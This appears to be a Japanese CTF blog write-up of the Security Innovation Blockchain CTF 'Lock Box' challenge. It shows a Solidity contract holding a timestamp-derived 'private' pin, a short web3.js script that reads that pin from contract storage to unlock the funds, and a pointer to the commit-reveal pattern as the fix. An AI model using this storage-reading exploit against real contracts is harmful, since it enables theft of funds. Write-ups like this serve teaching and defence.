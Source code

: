 +++
title = "[Security Innovation Blockchain CTF] Lock Box"
date = "2022-06-01"
tags = [
    "security",
    "ctf",
]
draft = true
+++

#### 概要

[Security Innovation Blockchain CTF](https://blockchain-ctf.securityinnovation.com/)

Security Innovationという企業が開催している、常設のCTFがあります。
今回は、[Lock Box](https://blockchain-ctf.securityinnovation.com/#/game/8)という問題を解きました。

#### 問題

問題を開くと、以下のような画面が出てきます。

ピンを入力してUnlockボタンを押すと、スマートコントラクトが保有している資産を取得できるというアプリのようです。

<img src=./dapps.png><br>

#### ソースコードを読む

constructorではアンロックするためのpinが生成されており、unlock関数で資金を送金するというコードのようです。

unlock関数はpinを受け取り、constructorで生成したpinと同一であれば、資金が送金されるようです。

```solidity
pragma solidity 0.4.24;

import "../CtfFramework.sol";

contract Lockbox1 is CtfFramework{

    uint256 private pin;

    constructor(address _ctfLauncher, address _player) public payable CtfFramework(_ctfLauncher, _player) {
        pin = now%10000;
    }

    function unlock(uint256 _pin) external ctf{
        require(pin == _pin, "Incorrect PIN");
        msg.sender.transfer(address(this).balance);
    }
}
```

#### エクスプロイト

この問題を解くには、`uint256 private pin`として格納されているpinを取得出来る必要があります。
この変数はブロックチェーン上に保存されるものなので、読み取り可能です。

web3.jsを使って書いたエクスプロイトは以下の通りです。
`getStorageAt`という関数を使ってpinを取り出しています。


```solidity
const Web3 = require('web3')
const HDWalletProvider = require("@truffle/hdwallet-provider")

require('dotenv').config()

const web3 = new Web3(new HDWalletProvider(process.env.PRIVATE_KEY, process.env.PROVIDER_URL))
web3.eth.getStorageAt("0x258e6ed1bebd27f05dc466993edd9720ceb3877a", 1).then(storage => console.log(parseInt(storage)))
```

#### どう実装されているべきか

Commit-Revealというパターンを使うことで、ブロックチェーンに機密を保存出来るようです。

- https://karl.tech/learning-solidity-part-2-voting/
- https://medium.com/layerx-jp/smart-contract-design-pattern-34a6401fe743

